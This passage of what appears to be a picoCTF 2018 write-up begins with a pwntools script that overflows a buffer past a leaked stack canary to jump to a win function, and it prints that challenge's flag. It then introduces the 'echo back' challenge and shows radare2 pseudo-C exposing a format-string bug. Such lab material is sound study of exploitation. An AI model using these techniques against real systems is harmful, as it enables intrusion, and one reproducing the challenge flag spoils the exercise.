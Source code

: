 ```python

sh = process('./vuln')
sh.sendlineafter('> ', str(200))
sh.sendlineafter('> ', 'a'*32+canary+'a'*16+p32(winAddr))
sh.interactive()
```

flag: `picoCTF{eT_tU_bRuT3_F0Rc3_9bb35cfd}`

# echo back

## Problem

This [program](/blog/picoctf-2018-writeup/Binary Exploitation/echo back/echoback) we found seems to have a vulnerability. Can you get a shell and retreive the flag? Connect to it with `nc 2018shell2.picoctf.com 37857`.

## Solution

> My solution is certainly not the best way to solve this problem, so if you have a better method to solve this, please leave a comment below and let me know.

This time no source code is provided to us, so we need to fire up radare2 to do some reverse engineering:

```c
[0x08048643]> s sym.vuln
[0x080485ab]> pdd
/* r2dec pseudo C output */
#include <stdint.h>

int32_t vuln (void) {
    char * format;
    int32_t canary;
    int32_t local_4h;
    eax = *(gs:0x14);
    canary = eax;
    eax = 0;
    edx = &format;
    eax = 0;
    ecx = 0x20;
    edi = edx;
    do {
        *(es:edi) = eax;
        ecx--;
        es:edi += 4;
    } while (ecx != 0);
    system ("echo input your message:", edi);
    eax = &format;
    read (0, eax, 0x7f);
    eax = &format;
    printf (eax);
    puts (0x8048739);
    puts ("Thanks for sending the message!");
    eax = canary;
    eax ^= *(gs:0x14);
    if (? != ?) {
        _stack_chk_fail ();
    }
    edi = local_4h;
    return eax;
}
```
